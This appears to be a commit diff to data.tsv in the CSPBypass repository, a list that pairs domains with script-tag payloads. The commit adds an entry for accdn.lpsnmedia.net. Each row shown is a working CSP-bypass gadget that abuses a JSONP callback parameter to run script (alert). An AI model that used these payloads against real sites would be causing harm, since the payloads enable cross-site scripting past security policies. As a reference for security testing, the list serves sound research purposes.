

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; long unchanged cells end in ….

Commit message:
Added accdn.lpsnmedia.net

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -3,2 +3,3 @@ Domain	Code
 aax-eu.amazon.com	<script src="https://aax-eu.amazon.com/e/xsp/getAdj?callback=alert(1)-"></script>
+accdn.lpsnmedia.net	<script src="https://accdn.lpsnmedia.net/api/account/1/configuration/engagement-window/window-confs/1?cb=alert"></script>
 accounts.google.com	<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>
```
